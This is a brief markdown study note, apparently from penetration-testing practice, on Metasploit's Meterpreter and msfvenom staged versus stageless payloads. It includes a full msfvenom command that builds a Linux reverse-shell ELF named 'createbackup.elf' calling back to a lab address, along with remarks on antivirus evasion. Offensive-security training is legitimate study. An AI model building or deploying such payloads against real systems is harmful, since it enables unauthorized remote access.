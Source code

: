 # Metasploit

### Meterpreter
Meterpreter is a payload that uses in-memory DLL injection to stealthfully establish a communication channel between an attack box and a target

Can use `shell` command to drop in to a system shell


### MSFvenom
Crafting payloads with msfvenom

**Staged payload**  
 When run using an exploit module in Metasploit, this payload will send a small stage that will be executed on the target and then call back to the attack box to download the remainder of the payload over the network, then executes the shellcode to establish a reverse shell.

**Stageless payload**
This payload will be sent in its entirety across a network connection without a stage. Good for low bandwith and for Evasion.

**Naming convention:**
First is staged. Second is stageless
`windows/meterpreter/reverse_tcp` and `windows/meterpreter_reverse_tcp`    

**Building Stageless Payload** 
Example:  
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf`

`.exe` for windows. Would get caught in AV since signature is known

